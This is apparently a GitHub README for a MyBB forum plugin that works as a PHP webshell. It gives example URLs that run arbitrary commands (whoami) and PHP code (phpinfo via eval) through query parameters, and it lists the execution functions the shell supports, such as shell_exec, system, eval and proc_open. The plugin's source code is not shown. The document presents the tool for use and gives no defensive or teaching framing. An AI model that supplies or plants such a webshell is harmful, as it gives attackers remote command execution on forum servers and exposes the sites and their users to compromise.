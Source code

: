 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:
  shell_exec
  passthru
  exec
  system
  popen
  proc_open
  eval
  assert
  pcntl_exec
  ``
  
